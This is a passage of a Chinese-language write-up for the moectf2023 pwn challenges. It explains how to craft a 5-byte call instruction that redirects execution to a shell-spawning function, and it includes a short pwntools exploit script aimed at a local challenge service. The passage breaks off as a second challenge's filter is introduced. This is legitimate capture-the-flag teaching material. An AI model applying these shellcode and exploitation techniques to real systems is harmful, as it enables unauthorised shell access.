 

## shellcode_level3

和上次一样，只不过这次只有5个字节可以利用。仔细观察IDA发现system函数，交叉引用发现givemeshell函数可以直接拿到shell。所以我们可以构造call的机器码，刚好5个字节。call的最前面是E8，后面跟4字节的补码偏移量。目标地址是0x4011de，code的地址是0x404089，相减后再减去当前的5字节，取其补码0xffffd150。exp:

```python
from pwn import *

context(os="linux", arch="amd64") 
sh = remote("localhost", 36865)
parent_path = "/home/user/tmp/"

sh.sendline(b'\xe8' + p32(0xffffd150))
sh.interactive()
```



## changeable_shellcode

用IDA打开文件可以看到main函数将输入的buf用filter函数过滤，然后将buf复制到内存0x114514000中，最后跳转到该地址执行：

![image-20230822140746107](./moectf2023-pwn-wp.assets/image-20230822140746107.png)

跟进到filter函数：
